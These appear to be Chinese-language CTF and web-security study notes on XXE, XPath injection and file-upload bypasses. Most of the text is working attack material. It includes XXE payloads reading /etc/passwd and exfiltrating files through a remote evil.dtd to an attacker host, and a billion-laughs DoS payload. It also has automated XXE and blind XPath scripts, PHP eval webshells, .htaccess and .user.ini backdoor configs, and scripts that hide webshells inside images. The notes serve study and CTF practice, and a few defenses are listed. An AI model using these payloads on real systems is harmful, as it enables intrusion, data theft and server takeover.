  ```xml-dtd
  <!ENTITY 实体名称 "实体的值">
  
  示例
  <?xml version = "1.0" encoding = "utf-8"?>
  <!DOCTYPE test [
      <!ENTITY writer "Dawn">
      <!ENTITY copyright "Copyright W3School. .cn">
  ]>
  <test>&writer;©right;</test>
  ```

- 外部实体：用来引入外部资源，有SYSTEM和PUBLIC两个关键字，表示实体来自本地计算机还是公共计算机

  ```xml-dtd
  <!ENTITY 实体名称 SYSTEM "URI/URL">
  或者
  <!ENTITY 实体名称 PUBLIC "public_ID" "URI">
  
  示例
  <?xml version = "1.0" encoding = "utf-8"?>
  <!DOCTYPE test [
      <!ENTITY file SYSTEM "file:///etc/passwd">
      <!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
  ]>
  <author>&file;©right;</author>
  ```

  - 支持http、file等协议，不同程序支持的协议不同

  - php支持的协议虽多，但需要一定扩展

  - php引用外部实体，常见的利用协议

    ```
    file://文件绝对路径 如：file:///etc/passwd
    http://url/file.txt
    php://filter/read=convert.base64-encode/resource=xxx.php
    ```

- 参数实体+外部实体

  ```
  <!ENTITY % 实体名称 SYSTEM "URI/URL">
  
  示例
  <?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    %file;
  ]>
  
  %file(参数实体)是在DTD中被引用的，而&file;是在xml文档中被引用的。
  ```
  

### XXE（XML外部实体注入）

#### 原理

发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件和代码，造成任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击

触发点往往是可以上传xml文件的位置，没有对上传XML文件进行过滤

#### 读取任意文件

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY file SYSTEM "file:///etc/passwd" >
]>
<root>
<name>&file;</name>
</root>
```


读取文件，需URL编码后执行。 通过构造外部实体payload，在 xml 中 &file ; 变成了外部文件qwzf.txt中内容，导致敏感信息泄露。

##### 有回显读取文件

```xml-dtd
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE hack [
<!ENTITY file SYSTEM  "file:///etc/passwd">
        <!-- 或者php://filter协议 -->
<!ENTITY file SYSTEM  "php://filter/read=convert.base64-encode/resource=">       
]>
<user>
  <username>&file;</username>
  <password>hack</password>
</user>

```

##### 无回显

通过blind xxe方法加上外带数据通道来读取数据，先使用filter协议获取目标文件内容，然后将内容以http请求发送到攻击服务器来读取数据。虽无法直接查看文件内容，但我们可以使用易受攻击的服务器作为代理，在外部网络上执行扫描以及代码。即，当无回显情况时，可以将数据发送到远程服务器(攻击服务器)。

构造payload

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=D:/qwzf.txt">
<!ENTITY % dtd SYSTEM "http://攻击机ip/evil.dtd">
%dtd;
%send;
]>

```

远程服务器部署evil.dtd内容为

```xml-dtd
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://攻击机ip/?content=%file;'>"> %payload;

```

%要进行实体编码&#x25

进行xxe攻击后，服务器会把文件内容发送到攻击者服务器(这里是ubantu的apache日志记录)

ubantu查看apache日志记录命令：

```
tail -f /var/log/apache2/access.log
```

本地抓包也可以看到Base64编码后的文件内容


无回显攻击流程

- 先调用%dtd，请求远程服务器(攻击服务器)上的evil.dtd
- 再调用 evil.dtd中的 %file。%file 获取受攻击的服务器上面的敏感文件，然后将 %file 的返回结果传到%send
- 然后调用 %send; 把读取到的数据发送到远程服务器上

###### 脚本

读取文件

```python
#!/usr/bin/python
# -*- coding:utf-8 -*-
import urllib2

if __name__ == '__main__':

    print u'输入要访问的地址，如http://127.0.0.1/xml/xxe2.php'
    url = raw_input()
    count=1
    while count==1:
        print u'输入要读取的文件，如file:///etc/passwd'
        payload = raw_input()
        headers = {'Content-type': 'text/xml'}
        xml = '<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "' + payload + '" >]><root><name>&xxe;</name></root>'
        req = urllib2.Request(url = url,headers = headers, data = xml)
        res_data = urllib2.urlopen(req)
        res = res_data.read()
        print res
```

通过urllib2的request方法用POST方式向目标地址发送XML数据，返回的数据即为服务器相关文件内容。

#### 执行系统命令

在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >
]>
<root>
<name>&xxe;</name>
</root>
```

通过XXE可以实现RCE的实例很少。

#### 拒绝服务攻击Dos

```xml-dtd
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

```

原理：递归利用lol实体具体还有“lol”字符串，然后一个lol2实体引用了10次lol实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个 “lol” 了，以此类推，lol9 实体含有 10^8 个 “lol” 字符串,最后再引用lol9。

#### 探测内网端口与攻击内网网站

```
内网探测命令，探测存活主机
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```

xxe探测内网端口

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >
]>
<root>
<name>&xxe;</name>
</root>

对端口80进行爆破

```

3306端口开放

3389端口未开放

攻击内网网站

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80/payload" >
]>
<root>
<name>&xxe;</name>
</root>
```

#### 防御

- 使用开发语言提供的金庸外部实体的方法

  - php

    ```
    libxml_disable_entity_loader(true);
    ```

  - java

    ```java
    DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
    dbf.setExpandEntityReferences(false);
    ```

  - python

    ```python
    from lxml import etree
    xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
    ```

    

- 过滤用户提交的xml数据

  - 过滤关键字：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC。

- 不允许xml中含有自己定义的dtd

#### 危害

导致可加载恶意外部文件和代码，造成任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击

#### 例题1  [NCTF2019]Fake XML cookbook

buuctf中就有对应环境

看到这种页面就猜测sql和xml，具体是什么抓包便知


显然xxe，那就构造payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
 <!ENTITY admin SYSTEM "file:///flag">
]>
<user><username>&admin;;</username><password>123</password></user>
```


#### 例题2 [NCTF2019]True XML cookbook

话不多说，直接抓包上payload

```xml-dtd
<?xml version="1.0"?>
  <!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///etc/passwd">
  ]>
<user><username>&admin;</username><password>admin</password></user>
```


那我们尝试读取flag

显然不行，但是提示了一个文件/var/www/html/doLogin.php

尝试读取


都不行，那就尝试filter协议，发现可以读取

```xml-dtd
<?xml version="1.0"?>
  <!DOCTYPE note [
  <!ENTITY admin SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/doLogin.php">
  ]>
<user><username>&admin;</username><password>admin</password></user>
```


解码得

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

无实际内容，那就尝试内网内容

探测内网存活主机

```
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```

```xml-dtd
<?xml version="1.0"?>
  <!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///proc/net/fib_trie">
  ]>
<user><username>&admin;</username><password>admin</password></user>
```


开始对其进行爆破

```
<?xml version="1.0"?>
  <!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://10.244.80.2">
  ]>
<user><username>&admin;</username><password>admin</password></user>
```


### Xpath注入

- xml路径语言，用来确定xml文档中某部分位置得语言
- 基于xml树状结构，有不同类型节点，包括元素节点、属性节点和文本节点，提供在数据结构树中寻找节点得能力

#### 注入原理

- 类似于SQL注入，当网站使用未经正确处理的用户输入查询 XML 数据时，可能发生 XPATH 注入，由于Xpath中数据不像SQL中有权限的概念，用户可通过提交恶意XPATH代码获取到完整xml文档数据
- 利用xpath解析器的松散输入和容错特性，能够在url、表单或其他信息上附带恶意xpath查询代码，以获得高权限信息的访问

#### xpath和xquery语法

```
“nodename” – 选取nodename的所有子节点
“/nodename” – 从根节点中选择
“//nodename” – 从当前节点选择
“..” – 选择当前节点的父节点
“child::node()” – 选择当前节点的所有子节点
"@" -选择属性
"//user[position()=2] " 选择节点位置
```

#### 常规注入

index.php

```php
<?php
if(file_exists('t3stt3st.xml')) {
$xml = simplexml_load_file('t3stt3st.xml');
$user=$_GET['user'];
$query="user/username[@name='".$user."']";
$ans = $xml->xpath($query);
foreach($ans as $x => $x_value)
{
echo "2";
echo $x.":  " . $x_value;
echo "<br />";
}
}
?>
```

t3stt3st.xml:

```xml
<?xml version="1.0" encoding="utf-8"?>
<root1>
<user>
<username name='user1'>user1</username>
<key>KEY:1</key>
<username name='user2'>user2</username>
<key>KEY:2</key>
<username name='user3'>user3</username>
<key>KEY:3</key>
<username name='user4'>user4</username>
<key>KEY:4</key>
<username name='user5'>user5</username>
<key>KEY:5</key>
<username name='user6'>user6</username>
<key>KEY:6</key>
<username name='user7'>user7</username>
<key>KEY:7</key>
<username name='user8'>user8</username>
<key>KEY:8</key>
<username name='user9'>user9</username>
<key>KEY:9</key>
</user>
<hctfadmin>
<username name='hctf1'>hctf</username>
<key>flag:hctf{Dd0g_fac3_t0_k3yboard233}</key>
</hctfadmin>
</root1>
```

正常查询： http://127.0.0.1/xpath/index.php?user=user1

##### 注入漏洞验证

加一个‘；有以下报错，则可以确定Xpath注入的存在性

###### 查询当前节点下得数据

构造Xpath注入语句

```
user1' or 1=1 or ''='
```

此时查询语句为

```
$query="user/username[@name='user1' or 1=1 or ''='']";
##1=1为真 ''='' 为真，使用or连接，则可以匹配当前节点下的所有user
```

结果

###### 查询所有节点数据

使用’ or 1=1 “=‘ 只能获取当前节点下的数据，flag不在当前节点中

xpath有一个类似于sql的’ or ‘1’=‘1的payload

```
']|//*|//*['
```

该paylaod用于访问xml文档的所有节点


#### 登录绕过

login.php

```php
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title></title>
</head>
<body>
<form method="POST">
username：
<input type="text" name="username">
</p>
password：
<input type="password" name="password">
</p>
<input type="submit" value="登录" name="submit">
</p>
</form>
</body>
</html>
<?php
if(file_exists('test.xml')){
$xml=simplexml_load_file('test.xml');
if($_POST['submit']){
$username=$_POST['username'];
$password=$_POST['password'];
$x_query="/accounts/user[username='{$username}' and password='{$password}']";
$result = $xml->xpath($x_query);
if(count($result)==0){
echo '登录失败';
}else{
echo "登录成功";
$login_user = $result[0]->username;
echo "you login as $login_user";
}
}
}
?>
```

test.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<accounts>
<user id="1">
<username>Twe1ve</username>
<email>admin@xx.com</email>
<accounttype>administrator</accounttype>
<password>P@ssword123</password>
</user>
<user id="2">
<username>test</username>
<email>tw@xx.com</email>
<accounttype>normal</accounttype>
<password>123456</password>
</user>
</accounts>
```

这里test为普通账户，Twe1ve为管理账户

test用户使用正确的账户名密码正常登录：

用户名：test' or 'a'='a 密码随意

##### 万能密码

知道任意用户名即可用该用户身份登录

假若管理员用户未知，如我这里设置的比较奇葩的管理用户名，还可以实现以管理员身份登录吗？我们知道一般数据库中默认第一个用户为管理用户。所以这里类似SQLi 的万能密码，使用如下paylaod实现在管理账户未知的情况下管理员登录

```
x' or 1=1 or ''='
```

结果

#### Xpath盲注

xpath盲注适用于攻击者不清楚XML文档的架构，没有错误信息返回，一次只能通过布尔化查询来获取部分信息，同样以登录注入中的源码为例

##### 步骤

- 判断根节点下的节点数
- 判断节点下接待你长度&名称
- .......
- 重复猜解完所有节点，获取最后的值

从根节点开始判断

```
'or count(/)=1  or ''='     ###根节点数量为1
'or count(/*)=1 or ''='   ##根节点下只有一个子节点
```

判断根节点下的节点长度为8

```
'or string-length(name(/*[1]))=8 or ''='
```

猜解根节点下的节点名称

```
'or substring(name(/*[1]), 1, 1)='a'  or ''='
'or substring(name(/*[1]), 2, 1)='c'  or ''='
..
'or substring(name(/*[1]), 8, 1)='s'  or ''='
```

猜解出该节点名称为accounts

```
'or count(/accounts)=1  or ''='   /accounts节点数量为1
'or count(/accounts/user/*)>0 or ''='     /accounts下有两个节点

'or string-length(name(/accounts/*[1]))=4  or ''='    第一个子节点长度为4
```

猜解accounts下的节点名称：

```
'or substring(name(/accounts/*[1]), 1, 1)='u'  or ''='
...
'or substring(name(/accounts/*[1]), 4, 1)='r'  or ''='
```

accounts下子节点名称为user

```
'or count(/accounts/user)=2  or ''='    
user节点有两个，则可以猜测出accounts节点结构，accounts下两个节点，
均为user节点

```

第一个user节点的子节点长度为8：

```
'or string-length(name(/accounts/user[position()=1]/*[1]))=8 or ''='
```

读取user节点的下子节点

```
'or substring(name(/accounts/user[position()=1]/*[1]), 1, 1)='u'  or ''='
'or substring(name(/accounts/user[position()=1]/*[1]), 2, 1)='s'  or ''='
...
'or substring(name(/accounts/user[position()=1]/*[1]), 8, 1)='e'  or ''='
```

最终所有子节点值验证如下：

```
'or substring(name(/accounts/user[position()=1]/*[1]), 1)='username'  or ''='
'or substring(name(/accounts/user[position()=1]/*[2]), 1)='email'  or ''='
'or substring(name(/accounts/user[position()=1]/*[3]), 1)='accounttype'  or ''='
'or substring(name(/accounts/user[position()=1]/*[4]), 1)='password'  or ''='
```

继续猜解：

```
'or count(/accounts/user[position()=1]/username/*)>0 or ''='   
'or count(/accounts/user[position()=1]/email/*)>0 or ''=' 
'or count(/accounts/user[position()=1]/accounttype/*)>0 or ''='
'or count(/accounts/user[position()=1]/username/password/*)>0 or ''='
```

均为 false，不再有子节点，则可以尝试读取这些节点的值

第一个user下的username值长度为6:

```
'or string-length((//user[position()=1]/username[position()=1]))=6  or ''='
```

读取第一个user下usernaem的值

```
'or substring((//user[position()=1]/username[position()=1]),1,1)='T'  or ''='
....
'or substring((//user[position()=1]/username[position()=1]),6,1)='e'  or ''='
```

可依次读取所有的子节点的值，第二user节点的子节点值读取方式：

```
'or string-length((//user[position()=2]/username[position()=1]))=4 or ''='  第一个user下的username长度为4
......
```

重复上边步骤即可

##### 脚本

```python
import re
import time

import requests

session = requests.session()
url = "http://7da083cc-5822-4f04-939f-688f0bf9c6c4.node5.buuoj.cn:81/"
chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
head = {
    # 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.57 Safari/537.36',
    'Content-Type': 'application/xml',
    # "Cookie":"UM_distinctid=1785326510411f-0b3fb285b5c49c-4c3f227c-144000-178532651052c9; session=b953d436-f0da-4e58-be79-22676707c609.K5TbTAnwLyhIU66duiTX1Usn1D8; PHPSESSID=dd258b30ebc3b42c352a92ed98092b1c"
}

find = re.compile(r'<input type="hidden" id="token" value="(.*?)" />', re.S)
result = ""
# 猜测根节点名称
payload_1 = "<username>'or substring(name(/*[1]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
# 猜测子节点名称
payload_2 = "<username>'or substring(name(/root/*[1]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
# 猜测accounts的节点
payload_3 = "<username>'or substring(name(/root/accounts/*[1]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
# 猜测user节点
payload_4 = "<username>'or substring(name(/root/accounts/user/*[2]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
# 跑用户名和密码
payload_username = "<username>'or substring(/root/accounts/user[2]/username/text(), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
payload_password = "<username>'or substring(/root/accounts/user[2]/password/text(), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"


def get_token():  # 获取token的函数
    resp = session.get(url=url)  # 如果在这里用headers会得到超时的界面
    token = find.findall(resp.text)[0]
    # print(token)
    return token


for x in range(1, 100):
    for char in chars:
        time.sleep(0.3)
        token = get_token()
        playload = payload_username.format(x, char, token)  # 根据上面的playload来改
        # print(playload)
        resp = session.post(url=url, headers=head, data=playload)
        # print(resp.text)
        if "非法操作" in resp.text:
            result += char
            print(result)
            break
    if "用户名或密码错误" in resp.text:
        break

print(result)

```

#### 例题 [NPUCTF2020]ezlogin


也不多说了，抓包直接

显然的xml无需多说，而且属于xpath

先尝试万能密码

```
x' or 1=1 or ''='
```


显然不给

那就尝试脚本注入

```python
import re
import time

import requests

session = requests.session()
url = "http://7da083cc-5822-4f04-939f-688f0bf9c6c4.node5.buuoj.cn:81/"
chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
head = {
    # 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.57 Safari/537.36',
    'Content-Type': 'application/xml',
    # "Cookie":"UM_distinctid=1785326510411f-0b3fb285b5c49c-4c3f227c-144000-178532651052c9; session=b953d436-f0da-4e58-be79-22676707c609.K5TbTAnwLyhIU66duiTX1Usn1D8; PHPSESSID=dd258b30ebc3b42c352a92ed98092b1c"
}

find = re.compile(r'<input type="hidden" id="token" value="(.*?)" />', re.S)
result = ""
# 猜测根节点名称
payload_1 = "<username>'or substring(name(/*[1]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
# 猜测子节点名称
payload_2 = "<username>'or substring(name(/root/*[1]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
# 猜测accounts的节点
payload_3 = "<username>'or substring(name(/root/accounts/*[1]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
# 猜测user节点
payload_4 = "<username>'or substring(name(/root/accounts/user/*[2]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
# 跑用户名和密码
payload_username = "<username>'or substring(/root/accounts/user[2]/username/text(), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
payload_password = "<username>'or substring(/root/accounts/user[2]/password/text(), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"


def get_token():  # 获取token的函数
    resp = session.get(url=url)  # 如果在这里用headers会得到超时的界面
    token = find.findall(resp.text)[0]
    # print(token)
    return token


for x in range(1, 100):
    for char in chars:
        time.sleep(0.3)
        token = get_token()
        playload = payload_username.format(x, char, token)  # 根据上面的playload来改
        # print(playload)
        resp = session.post(url=url, headers=head, data=playload)
        # print(resp.text)
        if "非法操作" in resp.text:
            result += char
            print(result)
            break
    if "用户名或密码错误" in resp.text:
        break

print(result)
```

一句话一句话来跑，跑出username和passwd

```
adm1n
cf7414b5bdb2e65ee43083f4ddbc4d9f
对密码md5解密
gtfly123
```

登录即可，查看源码

```
Welcome!
ZmxhZyBpcyBpbiAvZmxhZwo=
```


显然伪协议读取

存在过滤，尝试一下，发现大小写绕过即可

```
?file=Php://filter/convert.bAse64-encode/resource=/flag
```


```
ZmxhZ3tiMTBmMjI5Ni1hOTlkLTRkNDgtODE3YS02NmRjN2ViY2IyZmJ9Cg==
```

收工

## 文件上传

木马文件名为1

### 一句话木马

说文件上传，必然是有一句木马的

```
<?php @eval($_POST['cmd'])?>
```

### js前端验证

```javascript
function checkfilesuffix()
{
    var file=document.getElementsByName('file')[0]['value'];
    if(file==""||file==null)
    {
        alert("请添加上传文件");
        return false;
    }
    else
    {
        var whitelist=new Array(".jpg",".png",".gif");
        var file_suffix=file.substring(file.lastIndexOf("."));
        if(whitelist.indexOf(file_suffix) == -1)
        {
            alert("该文件不允许上传");
            return false;
        }
    }
}

```

上传时文件后缀改为前端运行上传的文件名，如jpg、png等，抓包后在burp里修改为php后缀，放包即可

### MIME绕过

MIME：服务器上传检测文件时，在http中MIME类型被定义为Content-Type header


注意此时jpg的content-type：image/jpeg

php文件的Content-Type: application/octet-stream

所谓的MIME绕过就是更改content-type对应的文件格式

再放包即可

### 00截断

#### 原理

操作系统层的漏洞，操作系统是c语言或汇编语言编写的，在定义字符串时，都是以’0‘（即0x00）作为字符串结尾，因此在识别字符串时，读取到0x00就会以为读取结束，因此通过修改数据包，插入0字符达到截断目的

#### 截断发生条件

php 版本小于 5.3.4 才有可能存在此漏洞

magic_quotes_gpc为off状态

jdk7u40以下版本存在00截断问题

于是只需要上传

```
1.php%00.jpg
```

这样前端检测是jpg，但我们访问时，就是php

### 双写绕过

```php
<?php
$name = basename($_FILES['file']['name']);
$blacklist = array("php", "php5", "php4", "php3", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf", "htaccess", "ini");
$name = str_ireplace($blacklist, "", $name);

```

$name = str_ireplace($blacklist, "", $name);该函数将name中查找是否有数组blacklist中的字符串，若有则替换为空

假设我们上传1.php

显然php被替换为空，那么就可以双写绕过

```
1.pphphp
```


### 文件头检测

每个文件类型都有自己的标识符，是可以被检测的，那么我们就可以在文件前添加对应的文件头了

```
GIF89a
<?php @eval($_POST['cmd'])?>
```

### 文件后缀绕过

#### 后缀等意替换

php等替

```
php / php5 / pht / phtml / shtml / pwml / phtm
```

jsp引擎

```
jspx / jspf / jspa / jsw / jsv / jtml
```

asp

```
asa / asax / cer / cdx / aspx / ascx / ashx / asmx / asp{80-90}
```

其他后缀

```
vbs / asis / sh / reg / cgi / exe / dll / com / bat / pl / cfc / cfm / ini
```

#### 不可识别后缀解析

在Apache解析顺序中，是从右到左开始解析文件后缀，如果最右侧后缀名不可识别，就继续往左判断，直到遇到可以解析的文件后缀为止，所以如果上传的文件名类似1.php.xxx，因为xxx不可解析，所以向左解析php

### 竞争条件绕过

有的服务器采用了先保存，再删除不合法文件的方式，在这种服务器中，可以反复上传一个会生成Web Shell的文件并尝试访问，多次之后即可获得Shell。

比如上传一个1.php文件，文件作用是生成一个新的马子

```php
<?php
  fputs(fopen('../2.php', 'w'), '<?php @eval($_POST[123];?>');
?>

```

当1.php上传成功后，客户端会立即访问1.php，那么1.php就会在服务端当前目录下自动生成2.php，利用时间差完成上传，达到效果

### .htaccess文件（只在Apache服务器中起作用）

http-conf是Apache的系统配置文件，一个全局配置文件，对于整个web服务起作用；而.htaccess也是Apache的配置文件，但是只是一个局部配置文件，只对该文件所在目录下的文件起作用

在绕过文件上传的限制中，通常在Apache全局配置文件httpd.conf中有这样一条配置

```
AddType application/x-httpd-php .php .phtml
```

意为将php、phtml文件后缀当php文件执行，开启此配置就可以上传phtml文件当作php代码执行

亦或者

```
SetHandler application/x-httpd-php
```

将所有文件都解析为php文件

显然全局文件不可改，但是apache的局部配置文件.htaccess可以更改

选择上传.htaccess文件（如遇过滤与一句话木马文件一样处理）

```
法一
AddType application/x-httpd-php .jpg

法二
<FilesMatch "png">
SetHandler application/x-httpd-php
</FilesMatch>

法三
如果flag不是php文件，那么还可以像.user.ini一样在当前目录加载一个文件
php_value auto_append_file 'flag'
```

将jpg文件当初PHP文件解析，这样就可以直接解析jpg后缀的webshell

### .user.ini(只要服务器启用了fastcgi模式)

php.ini是php的一个全局配置文件，对于整个web服务起作用，而.user.ini和.htaccess一样是目录的配置文件，通常由这个文件来构造后门和隐藏后门

如：

```
auto_prepend_file = <filename>         //包含在文件头
auto_append_file = <filename>          //包含在文件尾
```

这两个配置项的作用相当于文件包含

```
// .user.ini
auto_prepend_file = 1.jpg

// 1.jpg
<?php phpinfo();?>

// 11.php
```

若在一个目录下由.user.ini这个配置文件，且为上，则其意为，在.php文件包含1.jpg这个图片，相当于在11.php文件头插入了require('1.jpg')这条语句，另外一个即包含在文件尾，但是如果遇到了exit语句会失效

局限：显然.user.ini同目录下必须存在php文件，但是通常不同文件名是存在不同目录中，但是有时可以使用../将文件上传到其他目录，达到一个利用效果

### 短标签代替php标签

```
<?= eval($_POST[1]);?>
 
<? eval($_POST[1]);?>
 
<% eval($_POST[1]);%>
<script language='php'>@eval($_POST['cmd']);</script>
```

### png图片二次渲染

创建一个木马文件，内容为

```php
<?$_GET[0]($_POST[1]);?>
```

然后 放入脚本二次渲染

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
    0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
    0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
    0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
    0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
    0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
    0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
    0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'D:\Desktop\upload\two xuanran\1.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */

?>
```

然后将渲染后的文件上传，并访问

直接命令执行，然后对该图片ctrl + s保存文件内容

### jpg图片二次渲染

```php
<?php
$miniPayload = '<?=eval($\_POST[1]);?>';
if(!extension\_loaded('gd') || !function\_exists('imagecreatefromjpeg')) {
    die('php-gd is not installed');
}
if(!isset($argv[1])) {
    die('php jpg\_payload.php <jpg\_name.jpg>');
}
set\_error\_handler("custom\_error\_handler");
for($pad = 0; $pad < 1024; $pad++) {
    $nullbytePayloadSize = $pad;
    $dis = new DataInputStream($argv[1]);
    $outStream = file\_get\_contents($argv[1]);
    $extraBytes = 0;
    $correctImage = TRUE;
    if($dis->readShort() != 0xFFD8) {
        die('Incorrect SOI marker');
    }
    while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
        $marker = $dis->readByte();
        $size = $dis->readShort() - 2;
        $dis->skip($size);
        if($marker === 0xDA) {
            $startPos = $dis->seek();
            $outStreamTmp =
                substr($outStream, 0, $startPos) .
                $miniPayload .
                str\_repeat("\0",$nullbytePayloadSize) .
                substr($outStream, $startPos);
            checkImage('\_'.$argv[1], $outStreamTmp, TRUE);
            if($extraBytes !== 0) {
                while((!$dis->eof())) {
                    if($dis->readByte() === 0xFF) {
                        if($dis->readByte !== 0x00) {
                            break;
                        }
                    }
                }
                $stopPos = $dis->seek() - 2;
                $imageStreamSize = $stopPos - $startPos;
                $outStream =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    substr(
                        str\_repeat("\0",$nullbytePayloadSize).
                        substr($outStream, $startPos, $imageStreamSize),
                        0,
                        $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                    substr($outStream, $stopPos);
            } elseif($correctImage) {
                $outStream = $outStreamTmp;
            } else {
                break;
            }
            if(checkImage('payload\_'.$argv[1], $outStream)) {
                die('Success!');
            } else {
                break;
            }
        }
    }
}
unlink('payload\_'.$argv[1]);
die('Something\'s wrong');
function checkImage($filename, $data, $unlink = FALSE) {
    global $correctImage;
    file\_put\_contents($filename, $data);
    $correctImage = TRUE;
    imagecreatefromjpeg($filename);
    if($unlink)
        unlink($filename);
    return $correctImage;
}
function custom\_error\_handler($errno, $errstr, $errfile, $errline) {
    global $extraBytes, $correctImage;
    $correctImage = FALSE;
    if(preg\_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
        if(isset($m[1])) {
            $extraBytes = (int)$m[1];
        }
